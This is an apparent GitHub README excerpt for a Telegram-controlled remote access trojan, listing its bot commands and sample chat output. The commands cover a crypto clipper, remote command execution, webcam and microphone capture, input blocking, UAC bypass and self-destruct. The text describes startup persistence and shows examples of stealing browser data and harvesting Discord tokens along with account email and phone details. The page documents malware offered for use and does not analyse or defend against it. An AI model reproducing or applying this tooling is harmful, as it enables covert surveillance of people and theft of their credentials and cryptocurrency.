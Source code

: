    ```bash
/execute - Execute file
/blockinput - Block input devices
/unblockinput - Unblock input devices
/websiteblock - Block website
/websiteunblock - Unblock website
/startclipper - Start crypto clipper
/cmd - Run system command
/processes - List processes
/kill - Kill process
/foreground - Get foreground process
/webcam - Capture webcam
/volume - Set volume level
/recordmic - Record microphone
/tts - Text-to-speech
/uacbypass - Attempt UAC bypass
/implode - Self-destruct
```

## 🎮 Usage 
- 🚀 Initialization
  ```python
  # The bot automatically:
  # 1. Registers system on startup
  # 2. Attempts UAC bypass
  # 3. Adds to startup persistence
  # 4. Starts Telegram bot listener
  # 5. Extracts and sends initial system information
  ```

## 📱 Telegram Interaction Examples
- System Registration:
  ```yaml
  User: /register
  Bot: 🍀سیستم با موفقیت ثبت شد:
  
  🔹 System-PC123 [🟢 Online]
  🆔 `DESKTOP-ABC123_1705345200`
  💻 Windows 10 | 8 Core | 16GB RAM
  🛡️ Antivirus: Windows Defender
  🔐 Privilege: Admin
  🌐 192.168.1.100
  ⏱ Last Active: 2024-01-15 14:30:25
  ```
- Browser Data Extraction:
  ```vbent
  User: /grabbrowser
  Bot: ⏳ Extracting browser data from selected system...
  Bot: 📁 [File] browser_data_20240115_143025.zip
       🌐 Browser data from System-PC123
  ```
- Discord Token Harvesting:
  ```yaml
  User: /discord
  Bot: 🔍 Searching for Discord tokens on System-PC123...
  Bot: 🔑 Found Discord Tokens on System-PC123:
  
  👤 User: JohnDoe#1234
  📧 Email: john.doe@example.com
  📱 Phone: +1234567890
  💎 Nitro: Nitro Classic
  🔑 Token: `MTExMTExMTExMTExMTExMTEx...`
  ```
